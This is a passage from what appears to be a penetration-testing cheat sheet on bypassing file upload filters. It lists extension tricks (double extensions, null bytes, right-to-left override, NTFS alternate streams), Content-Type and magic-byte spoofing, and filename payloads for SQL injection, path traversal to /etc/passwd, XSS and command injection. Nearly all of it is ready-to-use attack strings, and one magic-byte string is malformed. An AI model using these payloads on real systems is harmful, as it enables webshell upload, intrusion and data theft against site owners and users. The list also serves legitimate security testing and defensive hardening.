 ### Upload tricks

- Use double extensions : `.jpg.php, .png.php5`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
- Null byte (works well against `pathinfo()`)
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
- Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace and new line characters
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * Multiple special characters: `file.jsp/././././.`
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
    * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    * Set the Content-Type twice: once for unallowed type and once for allowed.
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
        * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        * JPG: `\xff\xd8\xff`
        * GIF: `GIF87a` OR `GIF8;`
    * Shell can also be added in the metadata
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

### Filename vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

- Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd` 
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

